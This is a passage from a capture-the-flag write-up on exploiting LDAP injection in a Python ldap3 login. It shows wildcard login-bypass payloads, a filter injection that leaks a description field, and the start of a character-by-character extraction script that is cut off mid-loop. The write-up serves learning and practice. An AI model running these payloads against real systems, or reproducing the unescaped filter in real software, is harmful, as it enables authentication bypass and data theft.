 The keys parts i want to highlight are: 

- `from ldap3 import Server, Connection, ALL`
- `conn.search('ou=people,dc=bts,dc=ctf', f'(&(employeeType=active)(uid={username})(userPassword={password}))', attributes=['uid'])` 

We can do LDAP injection, and we have to focus on:

```ldap
(&(employeeType=active)(uid=INPUT)(userPassword=INPUT))
```

A common way of exploit LDAP Injections are using wildcards: `*`

So POSTing
```json
{
    "username":"*",
    "password":"*"
}
```

Gives the query:

```
(&(employeeType=active)(uid=*)(userPassword=*))
```

And that actually logs us in. But we know that the flag was in the `description:` entry and that is our goal.

If we do:
```json
{
    "username":"*)(|(description=BtSCTF{*",
    "password":"*"
}
```
```
(&(employeeType=active)(uid=*)(|(description=BtSCTF{*))(userPassword=*))
```

I wrote a script to append to the prefix if we stumble upon the next correct character in the flag.

```python
import requests
import sys
import time

# Configuration
# BASE_URL   = 'https://lightweight-2.chal.bts.wh.edu.pl'  # Adjust if needed
BASE_URL   = 'http://localhost:5000'  # Adjust if needed
CHARS      = '}_abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!?$@#'


def get_flag():
    session = requests.Session()
    flag = 'BtSCTF{'
    #flag = 'BtSCTF{_bl1nd_ld4p_1nj3ct10n_y1pp333333'
    
    while not flag.endswith('}'):
        found_char = False
        
        for c in CHARS:
            prefix = flag + c

            print(flag)

            time.sleep(0.001)

            payload_username = f"*)(|(description={prefix}" + "*)"
```